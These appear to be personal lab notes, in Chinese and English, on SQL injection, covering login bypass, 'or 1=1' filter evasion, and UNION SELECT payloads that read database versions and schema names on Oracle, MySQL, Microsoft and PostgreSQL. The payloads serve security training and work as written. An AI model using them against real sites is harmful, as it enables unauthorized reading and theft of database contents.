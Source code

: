 ```
xx'--
```

sql语句中可能有 and released = 1，因为数据库把有的数据隐藏了

```
xx'+or+1=1--
```

查询所有

```
username='xx'--' and password=''
```

颠覆逻辑

```
'union select xxx--
```

检索数据库中数据

```
SELECT * FROM v$version
```

检索数据库信息





ctrl+u：url编码



## SQL injection attack, querying the database type and version on Oracle

' union select 'a',banner from sys.v_$version--+

## SQL injection attack, querying the database type and version on MySQL and Microsoft

?category=Lifestyle' union select 'a',version()--+

## SQL injection attack, listing the database contents on non-Oracle databases

' order by 2--+

' union select 'a',version()--+

=>PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit

' union select 'a',schema_name from information_schema.schemata--+

=>
